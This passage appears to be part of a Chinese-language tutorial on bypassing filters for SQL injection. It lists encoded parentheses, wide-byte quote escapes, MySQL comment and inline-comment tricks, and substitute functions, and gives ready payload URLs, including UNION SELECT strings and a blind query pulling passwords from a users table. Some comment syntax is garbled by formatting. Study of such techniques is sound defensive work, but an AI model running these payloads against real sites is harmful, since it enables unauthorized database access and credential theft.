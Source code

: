 左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8

右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9

举例：?id=10%D6‘%20AND%201=2%23

SELECT 'Ä'='A'; #1

两个示例中，前者利用双字节绕过，比如对单引号转义操作变成'，那么就变成了%D6%5C'，%D6%5C构成了一个款字节即Unicode字节，单引号可以正常使用

第二个示例使用的是两种不同编码的字符的比较，它们比较的结果可能是True或者False，关键在于Unicode编码种类繁多，基于黑名单的过滤器无法处理所以情况，从而实现绕过

另外平时听得多一点的可能是utf-7的绕过，还有utf-16、utf-32的绕过，后者从成功的实现对google的绕过，有兴趣的朋友可以去了解下

常见的编码当然还有二进制、八进制，它们不一定都派得上用场，但后面会提到使用二进制的例子

**d) 使用注释**

看一下常见的用于注释的符号有哪些：*//, -- , /**/, #, --+,--  -, ;，--a**

1.普通注释

举例：z.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4

'union%a0select pass from users#

/**/在构造得查询语句中插入注释，规避对空格的依赖或关键字识别;#、--+用于终结语句的查询

2.内联注释

相比普通注释，内联注释用的更多，它有一个特性/!**/只有MySQL能识别

举例：index.php?page_id=-15 /_!UNION_/ /_!SELECT_/ 1,2,3

?page_id=null%0A/**//_!50000%55nIOn_//_yoyu_/all/**/%0A/_!%53eLEct_/%0A/_nnaa_/+1,2,3,4…

两个示例中前者使用内联注释，后者还用到了普通注释。使用注释一个很有用的做法便是对关键字的拆分，要做到这一点后面讨论的特殊符号也能实现，当然前提是包括/、*在内的这些字符能正常使用

**e)等价函数与命令**

有些函数或命令因其关键字被检测出来而无法使用，但是在很多情况下可以使用与之等价或类似的代码替代其使用

1.函数或变量

hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@[@user ](/user ) ==> user() 

@[@datadir ](/datadir ) ==> datadir() 

举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74

或者：substr((select 'password'),1,1) = 0x70

strcmp(left('password',1), 0x69) = 1

strcmp(left('password',1), 0x70) = 0

strcmp(left('password',1), 0x71) = -1
